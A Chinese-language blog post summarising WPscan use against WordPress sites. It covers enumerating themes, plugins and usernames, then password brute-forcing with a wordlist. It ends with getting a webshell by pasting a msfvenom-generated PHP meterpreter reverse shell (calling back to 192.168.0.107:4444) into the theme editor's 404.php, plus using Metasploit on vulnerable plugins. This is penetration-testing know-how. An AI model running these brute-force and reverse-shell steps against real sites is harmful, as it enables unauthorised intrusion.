 ```yaml
---
layout:     post
title:      WPscan使用总结
subtitle:   WPscan使用总结
date:       2019-09-05
author:     木已成舟
header-img: img/post-bg-rwd.jpg
catalog: 	 true
tags:
    - 工具使用
---
```

## 前言
最近在给某省教育厅的资产进行扫描时，发现一些网站建站程序用的是WordPress，于是就有了本文，本文主要记录了WPscan的一些用法；
## 更新wpscan
在使用WPscan前，它需要你更新到最新版本：
```
ruby wpscan.rb --update
```
![图片](../../../../img/wpscan_1.png)
## 扫描WorePress版本
扫描Wordpress搭建的网站：
```
wpscan -u http://127.0.0.1/
```
## 枚举WordPress主题
通过以下命令枚举网站安装的WordPress主题：
```
wpscan -u http://127.0.0.1/ --enumerate t
```
## 枚举WordPress易受攻击的主题
通过以下命令枚举网站安装的易受攻击的WordPress主题：
```
wpscan -u http://127.0.0.1/ --enumerate vt
```
## 枚举WordPress插件
通过以下命令枚举网站安装的WordPress插件：
```
wpscan -u http://127.0.0.1/ --enumerate p
```
## 枚举WordPress易受攻击的插件
通过以下命令枚举网站安装的易受攻击的WordPress插件：
```
wpscan -u http://127.0.0.1/ --enumerate vp
```
## 枚举WordPress用户名
通过以下命令枚举网站的用户名：
```
wpscan -u http://127.0.0.1/ --enumerate u
```
下图可以看到成功获取到了7个用户名：
## ![图片](../../../../img/wpscan_2.png)

## 使用Wpscan进行暴力攻击
通过上面的枚举用户名步骤，我们已知了用户名，因此只差爆破密码，输入以下命令开始爆破密码：
```
wpscan -u http://127.0.0.1/ --wordlist /root/Desktop/dict.txt --username test
```

## 一行命令枚举插件、主题、用户
上面的命令还是比较繁琐的，我们可以通过以下一行命令，“一键”枚举插件、主题、用户：
```
wpscan -u http://127.0.0.1/ -e at -e ap -e u
```
at：枚举目标网站的所有主题
ap：枚举目标网站的所有插件
u：枚举目标网站的所有用户名
## WordPress 后台Getshell
当我们通过一些弱口令/漏洞利用，进入后台后，通过后台拿WebShell的方法，这里推荐进入外观--编辑([http://127.0.0.1](http://127.0.0.1)[/wp-admin/theme-editor.php)](http://www.test.me/wp-admin/theme-editor.php))--修改404.php的代码(使用msfvenom生成php反弹shell)
```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.0.107 lport=4444 -f raw
```
![图片](../../../../img/wpscan_3.png)

## 使用Metasploit利用易受攻击的插件
当我们通过WPscan扫到红色感叹号的提示信息时，我们可以搜索msf中是否存在这个利用脚本，来达到获取Shell的目的，下图是真实环境中某站存在的一个漏洞：
![图片](../../../../img/wpscan_4.png)

![图片](../../../../img/wpscan_5.png)

